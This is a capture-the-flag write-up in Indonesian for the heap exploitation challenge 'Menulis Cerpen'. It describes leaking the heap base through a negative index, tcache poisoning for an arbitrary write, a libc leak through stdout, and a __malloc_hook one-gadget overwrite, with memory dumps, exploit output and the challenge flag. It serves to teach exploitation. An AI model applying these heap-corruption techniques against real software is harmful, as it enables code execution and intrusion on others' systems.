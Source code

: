 # Menulis Cerpen

```
$ file soal
soal: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ld.so, BuildID[sha1]=9809791f8456de9942ad0876fbc3cfc9a689242b, for GNU/Linux 3.2.0, with debug_info, not stripped
$ checksec soal
[*] '/media/sf_virtual/cscctf/Menulis_cerpen/soal'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
# exploit
step pengerjaannya
1. leak heap base address
2. memasukan alamat ke penampung tcache bin untuk write kemanapun
3. mencari libc base address dengan leak _IO_2_1_stdout_
4. masukan one gadget ke __malloc_hook

## 1--
Pada function Tulis_Paragraf() ada code yang berguna untuk leak heap base address
```
...
printf("Tulis diKolom %i :\n", Index_Paragraf + 1);
if ( Panjang_Tulisan < 0 || Panjang_Tulisan > 200 )
{
  .
}else{
  ...
  Paragraf[Index_Paragraf++] = tulisan;
  ...
}
```

pada Paragraf[Index_Paragraf++] = tulisan; akan memasukan alamat tulisan yang sudah dimalloc ke Index_Paragraf, agar printf("Tulis diKolom %i :\n", Index_Paragraf + 1); bisa leak alamat dari heap base
```
0x404040 <Banyak_Paragraf>:	0x0000000000000000      
0x404048 <Index_Paragraf>: 	0x0000000000000000
0x404050:       			0x0000000000000000      
0x404058:					0x0000000000000000
0x404060 <Paragraf>:    	0x0000000000000000      
0x404068 <Paragraf+8>:  	0x0000000000000000
```

dari atas artinya penulis akan membuat Index_Paragraf menjadi -3 ((0x404048-0x404060)/8)

pada function Kirim_Cerpen() kita bisa membuat Index_Paragraf menjadi -3
```
...
Index_Paragraf -= Banyak_Paragraf;
...
```

## 2--
penulis memasukan tulisan address (isinya 0x404010) ke heap base address + 88
```
0x862000:       0x0000000000000000      0x0000000000000251
0x862010:       0x0000000000000000      0x0000000000000000
0x862020:       0x0000000000000000      0x0000000000000000
0x862030:       0x0000000000000000      0x0000000000000000
0x862040:       0x0000000000000000      0x0000000000000000
0x862050:       0x0000000000000000      0x0000000000862350 <- tulisan address
```
agar Tcachebins kedetect seperti ini
```
Tcachebins[idx=1, size=0x30] count=0  ←  Chunk(addr=0x862350, size=0x30, flags=PREV_INUSE)  ←  Chunk(addr=0x404010, size=0x0, flags=)
```
memasukan satu kali junk malloc, akan seperti ini
```
Tcachebins[idx=1, size=0x30] count=0  ←  Chunk(addr=0x404010, size=0x0, flags=)
```
## 3--
penulis bisa menggunakan langkah ke 2 untuk leak _IO_2_1_stdout_ dengan menggunakan 
function main() dibagian terakhir
```
...
printf("Selamat %sberhasil mengirimkan Cerpennya\n", nama);
...
```
tujuannya nama='a'*15
maka di 
```
0x404010:       0x6161616161616161      
0x404018:		0x6161616161616161
0x404020 <stdout@@GLIBC_2.2.5>: 0x00007f33e50c2760
```
## 4--
penulis akan menggunakan langkah 1 dan 2 untuk memasukan one gadget ke __malloc_hook

hasilnya
```
┌─[root@kali]─[/media/sf_virtual/cscctf/Menulis_cerpen]
└──╼ #python solve.py 
[+] Starting local process '/media/sf_virtual/cscctf/Menulis_cerpen/soal': pid 2145
Heap Base Address : 0x107a000
Write ke address : 0x107a058
 _IO_2_1_stdout_ Address : 0x7ff1c7912760
Libc base Address : 0x7ff1c772d000
__malloc_hook Address : 0x7ff1c772d000
One_Gadget Address : 0x7ff1c780f383
[*] Switching to interactive mode
 Panjang : Tulis diKolom 1633283 :
$ cat flag.txt
CSCCTF{Tc4ch3_1s_n0T_S3cUr3_Br0}
```